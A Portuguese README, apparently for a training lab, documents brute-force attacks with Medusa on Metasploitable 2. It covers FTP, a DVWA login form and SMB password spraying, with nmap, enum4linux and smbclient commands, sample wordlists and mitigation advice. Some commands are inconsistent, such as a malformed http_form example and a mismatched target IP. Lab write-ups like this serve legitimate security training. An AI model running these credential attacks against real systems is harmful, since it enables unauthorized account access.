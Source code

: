**Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlado)**

Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox-host-only) rede interna.

⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**

* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* imagens (screenshots)

**Objetivos do projeto:**

1.  Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only.
2.  Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3.  Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4.  Estrutura das VMs (configuração sugerida).
5.  Instalar VirtualBox.
6.  Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7.  VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8.  VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9.  Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux).
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).

**Comandos - varredura inicial**

1. Descobrir serviços com nmap:

```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```


**Ataque FTP com Medusa**

2. força bruta contra usuários conhecidos (ex: admin) com uma wordlist pequena.

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```

**Explicação das flags:**

* h host alvo
* u usuário único (use -U para arquivo de usuários)
* P caminho da wordlist de senhas
* M ftp módulo FTP
* T 6 threads (ajuste conforme ambiente)
* f encerra ao encontrar credenciais válidas

3. Validação, após encontrar credenciais faça login com ftp:

```bash
ftp 192.168.56.101
```


**Ataque a formulário web (DVWA) com Medusa (http_form)**

DVWA costuma ter login em dvwa/login.php. Exemplo de uso do módulo http_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):

1. Exemplo de http_form (substitua os campos conforme o formulário real):

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \
-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \
-m 'FAIL=Login failed' -t 6
```

2. Validação, tente fazer login no navegador usando as credenciais encontradas.


**Password spraying em SMB (com enumeração de usuários)**

* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).

1. Enumeração com enum4linux:

```bash
enum4linux -a 192.168.56.101 | tee enum4_output.txt
```

2. Crie wordlists conforme ajuste:

```bash
echo -e "user\nmsfadmin\nservice" > smb_users.txt

echo -e "password\n123456\nWelcome123\nmsfadmin" > senhas spray.txt
```

3. Medusa smbnt (sintaxe genérica - ajuste conforme versão), Usando arquivo de usuários (-U) e uma pequena wordlist (-P):

```bash
medusa -h 192.168.56.101 -U smb_users.txt -P senhas_spray.txt -M smbnt -t 2 -T 50
```

* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal/spraying: para vários usuários tenta poucas senhas comuns.

4. Validação, se houver credenciais válidas, usar smbclient para acesso:

```bash
smbclient -L //192.168.56.20 -U msfadmin
```

**Recomendações de mitigação (boas práticas):**

* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.



